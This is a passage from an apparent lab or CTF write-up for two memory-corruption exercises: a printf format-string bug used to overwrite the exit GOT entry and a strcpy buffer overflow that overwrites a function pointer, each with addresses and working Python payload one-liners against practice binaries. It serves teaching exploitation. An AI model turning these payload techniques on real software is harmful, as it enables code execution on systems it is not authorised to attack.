 hello function address: 0x080484b4

exit function address: 0x08049724

Exploit Steps

Analyze the binary:

vuln reads input and uses printf with a format-string vulnerability. By crafting input, we can overwrite the exit entry in the GOT.

Create the payload:

Use %4$hn to write values at the desired memory locations.

Single word:


        `bash`

        `(python -c 'print("\x24\x97\x04\x08"+"%33968x%4$hn")') | ./bin`


Double word:

        `bash`

        `(python -c 'print("\x24\x97\x04\x08"+"\x26\x97\x04\x08"+"%33964x%4$hn"+"%33616x%5$hn")') | ./bin`


Result: Execution is redirected to hello.

[exercise9_5](img/09_5.png)

## Exercise 10: Buffer Overflow

Goal: Redirect execution to the winner function by overwriting a function pointer.

Key Information

Buffer size: 64 bytes

Function pointer offset: 72 bytes from the start of the buffer

winner function address: 0x08048464

Exploit Steps

Analyze the binary:
strcpy is used without bounds checking, allowing a buffer overflow that can overwrite the function pointer.

Create the payload:

Fill the buffer (72 bytes) and overwrite the function pointer:
    
    `bash`

    `./bin $(python -c 'print("A"*72+"\x64\x84\x04\x08")')`


Result: Execution is redirected to winner.

[exercise10](img/10.png)
